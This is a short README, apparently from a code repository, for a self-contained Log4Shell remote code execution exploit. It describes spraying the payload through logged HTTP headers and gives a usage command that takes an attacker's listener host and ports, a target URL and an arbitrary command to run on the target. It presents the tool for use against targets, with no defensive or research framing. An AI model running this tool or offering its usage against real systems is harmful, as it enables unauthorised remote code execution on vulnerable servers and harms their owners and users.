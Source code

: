 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
```shell
python main.py -i lhost -u http://target:targetport -c "command_to_execute" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+

